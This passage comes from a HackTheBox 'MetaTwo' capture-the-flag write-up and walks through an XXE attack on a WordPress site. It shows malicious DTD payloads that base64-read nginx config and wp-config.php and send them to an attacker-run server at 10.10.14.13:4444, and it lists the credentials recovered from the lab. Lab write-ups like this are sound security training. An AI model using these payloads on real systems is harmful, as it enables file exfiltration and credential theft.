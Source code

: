 		> Why do we need `evil.dtd`?
		> - The dtd file contains payload to exfiltrate file.
		> - By referencing an external malicious DTD file (evil.dtd), we are able to exfiltrate our desired file.
		{: .prompt-info}
	3. Host  `evil.dtd`
		```
		┌──(root💀kali)-[~/htb/metatwo/10.10.11.186/exploit]
		└─# php -S 0.0.0.0:4444
		[Mon Nov 28 16:42:18 2022] PHP 8.1.5 Development Server (http://0.0.0.0:4444) started
		```
	4. Exfiltrate file `/etc/passwd`
		![](EzVySJ7XON.gif)
		> Why `/etc/passwd` ?
		> - This is to find out whether the XXE exploit works, since `/etc/passwd` is found in every Linux system.
		> - Also, to find out user accounts on the Linux system.
		{: .prompt-info}
	5. To proceed, we have to include something useful, the next thing that comes to my mind is to include `wp-config.php`, as it contains credentials. However, we do not know the full path of the web root directory. Let's find out!
	6. Earlier, we found out that the web server is running 
		> - `nginx 1.18.0` 
		> - Virtual Host is used (due to redirecting from metatwo.htb -> metapress.htb)
		{: .prompt-info}
	7. We are able to find out the root web directory by including the virtual host configuration file 
		> - `nginx` virtual host configuration file (`/etc/nginx/sites-available/default`) contains the web root directory for every virtual host configured.
		> - This initial foothold method is very similar to [HackTheBox - Trick](https://yufongg.github.io/posts/Trick/)
		{: .prompt-info}
5. Create `evil.dtd` to exfiltrate `/etc/nginx/sites-available/default`
	```xml
	<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=/etc/nginx/sites-available/default">
	<!ENTITY % init "<!ENTITY &#x25; trick SYSTEM 'http://10.10.14.13:4444/?p=%file;'>" >
	```
6. Exfiltrate `/etc/nginx/sites-available/default`
	![]({{ page.img_path }}Pasted%20image%2020221128174841.png)
	> Web Root Directory
	> - `/var/www/metapress.htb/blog`
	{: .prompt-info}
7. Create `evil.dtd` to exfiltrate `/var/www/metapress.htb/blog/wp-config.php`
	```xml
	<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=/var/www/metapress.htb/blog/wp-config.php">
	<!ENTITY % init "<!ENTITY &#x25; trick SYSTEM 'http://10.10.14.13:4444/?p=%file;'>" >
	```
8. Exfiltrate `wp-config.php`
	![]({{ page.img_path }}Pasted%20image%2020221128175328.png)
> Valid Credential s
> - `blog:635Aq@TdqrCwXFUZ`
> - `metapress.htb:9NYS_ii@FyL_p5M2NvJ`
{: .prompt-info}
